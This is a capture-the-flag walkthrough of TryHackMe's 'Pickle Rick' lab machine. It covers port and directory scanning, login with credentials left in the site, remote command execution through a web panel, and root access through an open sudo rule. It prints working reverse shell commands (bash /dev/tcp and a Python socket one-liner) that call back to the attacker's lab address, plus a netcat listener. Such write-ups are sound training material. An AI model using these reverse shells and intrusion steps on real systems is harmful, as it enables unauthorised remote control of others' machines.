





Pickle Rick
This is the first machine in TryHackMe's "Starters" series: https://tryhackme.com/r/hacktivities/practice
I'll start with a quick preliminary nmap scan of the common ports:
nmap -T4 10.10.215.148
Nmap scan report for 10.10.215.148
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
We find that among the common ports, we just have SSH and HTTP open. I'll start another scan to hopefully get more detail about these services:
nmap -T4 -sV -sC 10.10.215.148 -p22,80
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 e1:e7:f9:c9:9d:4e:cd:e6:2d:1f:94:3c:7a:ce:27:02 (RSA)
| 256 dd:23:19:fe:f7:50:0b:55:92:71:b0:01:da:b2:54:b6 (ECDSA)
|_ 256 04:ff:75:6d:7a:0c:be:f4:e2:a5:85:16:34:99:a8:43 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.08 seconds
Checking out the website, I'll run a gobuster scan to find sub-directories:
gobuster dir -u http://10.10.215.148:80 --wordlist /usr/share/wordlists/dirb/common.txt
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess (Status: 403) [Size: 278]
/.hta (Status: 403) [Size: 278]
/.htpasswd (Status: 403) [Size: 278]
/assets (Status: 301) [Size: 315] [--> http://10.10.215.148/assets/]
/index.html (Status: 200) [Size: 1062]
/robots.txt (Status: 200) [Size: 17]
/server-status (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
Opening to index.html, we're greeted with this page:

From this, it sounds like our main objective is to login to the server via SSH. In this page's source, we find the following comment:Attempting to login, we receive "Permission denied (publickey)" meaning we'll need an SSH key to login with this username. Same when attempting to login as root.
/robots.txt only contains the string "Wubbalubbadubdub", which is either meaningless or a potential password.
In /assets, we have several files available. Some of them are images, so we'll take a quick look with steghide, but couldn't find any further information.
We seem to have potential login credentials, but we don't have anywhere to use them.
Now running a more exhaustive gobuster scan with /usr/share/wordlists/dibuster/directory-list-2.3-small.txt, as well as another Nmap enumeration of HTTP:
gobuster dir -u http://10.10.215.148:80 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
nmap --script http* 10.10.215.148 -p80
In the meantime, I continued to search manually for other pages that might be present indicated by the images in assets. One of them, portal.jpg, led to finding /portal.php which redirects to /login.php:

This time we don't have any useful information in the page's source, but we are able to log in to this page using R1ckRul3s:Wubbalubbadubdub.
Upon logging in, we have a "Command Panel" which gives us direct RCE into the webroot (/var/www/html) as the user www-data.

All of the other tabs visible at the top of this page deny access:

We'll navigate back to /portal.php obtain a Bash reverse shell for easier enumeration:
Open a listener on the attacking machine:
rlwrap nc -lnvp 53
Connect to the listener from the target machine via the command panel:
sh -i >& /dev/tcp/10.13.55.228/53 0>&1
After a few unsuccessful attempts, I'm given this screen, indicating that there's some form of filtering that prevents us from executing these commands, including nc and cat:

I made some more attempts, eventually succeeding with the following Python3 command to establish the reverse shell:
export RHOST="10.13.55.228";export RPORT=53;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
Then we'll use our Python trick to upgrade to an interactive TTY: python3 -c 'import pty;pty.spawn("/bin/bash")'.
At this point, we find that we're able to read /home/rick/'second ingredients', which gives us the second flag.
Next, assuming we're going to somehow escalate privileges to find the final flag, I notice that using sudo, we can run any command as root:
www-data@ip-10-10-51-251:/$ sudo -l
Matching Defaults entries for www-data on ip-10-10-51-251:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ip-10-10-51-251:
(ALL) NOPASSWD: ALL
www-data@ip-10-10-51-251:/$ sudo whoami
root